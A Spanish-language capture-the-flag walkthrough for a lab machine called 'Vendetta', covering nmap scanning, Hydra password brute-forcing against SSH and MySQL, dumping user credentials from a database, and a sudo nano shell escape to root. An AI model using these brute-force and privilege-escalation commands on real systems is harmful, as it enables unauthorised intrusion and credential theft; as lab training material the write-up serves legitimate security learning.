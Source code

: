 ```yaml
---
description: '✍️ Autor: misk0z🔍 Dificultad: Fácil  📅 Fecha de creación: 16/10/2024'
---
```


# Vendetta

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (942).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 3306** perteneciente al **servicio MySQL** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (946).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea una página sobre alguien anónimo.

<figure><img src="../../.gitbook/assets/image (947).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente me encuentro un detalle que me resulta la atención ya que lo tiene como una **strong** la **V** por lo que supongo que es un usuario.

<figure><img src="../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l V -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **MySQL** de una máquina con la IP **172.17.0.2**. Observamos que tarda demasiado por lo que debe ser de las últimas contraseñas del diccionario por lo que realizamos los siguientes comandos.\
Volteamos el diccionario.

```bash
tac /usr/share/wordlists/rockyou.txt > diccionario
```

Quitamos espacios.

```bash
cat diccionario | sed 's/ //g' > rockyou
```

Realizamos el ataque de fuerza bruta con **Hydra** con ese diccionario creado.

```
hydra -l V -P rockyou mysql://172.17.0.2 -f
```

Obtenemos que la contraseña es **pie168**. Hacemos conexión a la MySQL.

```bash
mysql -h 172.17.0.2 -u V -pie168 --skip-ssl
```

Miramos si hay algún usuario con sus credenciales.

```bash
show databases;
use BTN;
show tables;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (949).png" alt=""><figcaption></figcaption></figure>

Hemos conseguido las credenciales de **Vendetta** y nos logueamos al servicio **SSH**.

```bash
ssh Vendetta@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (950).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (951).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **nano** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/nano/#sudo)cómo explotarlo.

```bash
sudo /usr/bin/nano
Ctrl+R seguida de Ctrl+X
reset; sh 1>&0 2>&0
```

<figure><img src="../../.gitbook/assets/image (952).png" alt=""><figcaption></figcaption></figure>
